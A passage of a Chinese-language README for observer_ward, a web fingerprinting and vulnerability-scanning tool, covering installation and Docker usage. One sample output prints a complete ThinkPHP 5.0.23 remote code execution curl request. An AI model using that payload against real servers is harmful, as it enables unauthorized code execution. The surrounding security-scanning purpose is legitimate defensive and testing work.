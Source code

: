 <p align="right">(<a href="#readme-top">back to top</a>)</p>



## 安装

### 源码安装

- 从源码编译安装，更多可以查看github的action工作流文件 [workflow](.github/workflows/post-release.yml)

```bash,no-run
cargo build --release --manifest-path=observer_ward/Cargo.toml
```

### 二进制安装

- 从发布页面下载 [release](https://github.com/emo-crab/observer_ward/releases)
- 如果是Mac系统可以通过brew安装

### 使用Mac系统brew安装

```bash,no-run
brew install observer_ward
```

### Docker镜像

- docker镜像，`observer_ward`只有指纹识别功能

```bash,no-run
➜ docker run --rm -it kaliteam/observer_ward -t http://172.17.0.2
[INFO ] probes loaded: 2223
[INFO ] optimized probes: 7
[INFO ] target loaded: 1
|_uri:[ http://172.17.0.2/ [apache-http]  <> (200 OK) ]
|_uri:[ http://172.17.0.2/ [thinkphp]  <> (200 OK) ]
```

- `kaliteam/observer_ward:nuclei`是内置nuclei，在默认配置文件夹有`plugins`目录，但是更新时间不会最新了，是构建docker时的版本

```bash,no-run
➜  docker run --rm -it kaliteam/observer_ward:nuclei -t http://172.17.0.2 --plugin default
[INFO ] probes loaded: 2223
[INFO ] optimized probes: 7
[INFO ] target loaded: 1
|_uri:[ http://172.17.0.2/ [apache-http]  <> (200 OK) ]
|_uri:[ http://172.17.0.2/ [thinkphp]  <> (200 OK) ]
 |_exploitable: [Critical] thinkphp-5023-rce: ThinkPHP 5.0.23 - Remote Code Execution
  |_matched_at: http://172.17.0.2/index.php?s=captcha
  |_shell: curl -X 'POST' -d '_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1' -H 'Accept: */*' -H 'Accept-Language: en' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.2.1 Safari/605.3.23' 'http://172.17.0.2/index.php?s=captcha'
```



[contributors-shield]: https://img.shields.io/github/contributors/emo-crab/observer_ward.svg?style=for-the-badge
[contributors-url]: https://github.com/emo-crab/observer_ward/graphs/contributors
[forks-shield]: https://img.shields.io/github/forks/emo-crab/observer_ward.svg?style=for-the-badge
[forks-url]: https://github.com/emo-crab/observer_ward/network/members
[stars-shield]: https://img.shields.io/github/stars/emo-crab/observer_ward.svg?style=for-the-badge
[stars-url]: https://github.com/emo-crab/observer_ward/stargazers
[issues-shield]: https://img.shields.io/github/issues/emo-crab/observer_ward.svg?style=for-the-badge
[issues-url]: https://github.com/emo-crab/observer_ward/issues
[license-shield]: https://img.shields.io/github/license/emo-crab/observer_ward.svg?style=for-the-badge
[license-url]: https://github.com/emo-crab/observer_ward/blob/master/LICENSE.txt
[product-screenshot]: images/screenshot.png
[crates-shield]: https://img.shields.io/crates/v/observer_ward.svg?style=for-the-badge
[crates-url]: https://crates.io/crates/observer_ward